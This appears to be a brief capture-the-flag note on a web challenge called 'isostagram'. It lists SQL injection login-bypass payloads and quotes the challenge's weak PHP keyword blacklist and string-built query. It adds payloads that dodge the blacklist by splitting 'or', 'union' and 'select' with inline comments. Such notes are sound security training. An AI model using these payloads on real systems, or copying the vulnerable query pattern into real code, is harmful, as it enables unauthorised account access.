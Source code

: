 # isostagram
- its probably sql injection

- these crash the site
admin") or "1"="1"/*  
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055  
UNION ALL SELECT NULL#  
ORDER BY 1,SLEEP(5)#  
AS INJECTX WHERE 1=1 AND 1=1  
' or 1=1 --  


$blacklist = array("union", "select", "where", "and", "or");
$replace = array("", "", "", "", "");
$username = str_ireplace($blacklist, $replace, $username);
$password = str_ireplace($blacklist, $replace, $password);
$sql = "SELECT * FROM users WHERE `username` = '$username' AND `password` = '$password';";

'AS INJECTX W/**/HERE 1=1 AND 1=1 LIMIT 1 --
' o/**/r 1=1 limit 1; --
' o/**/r 1=1; --
* LIMIT 1

1' O/**/R '1' = '1

1' UN/**/ION ALL SEL/**/ECT * FROM users LIMIT 1--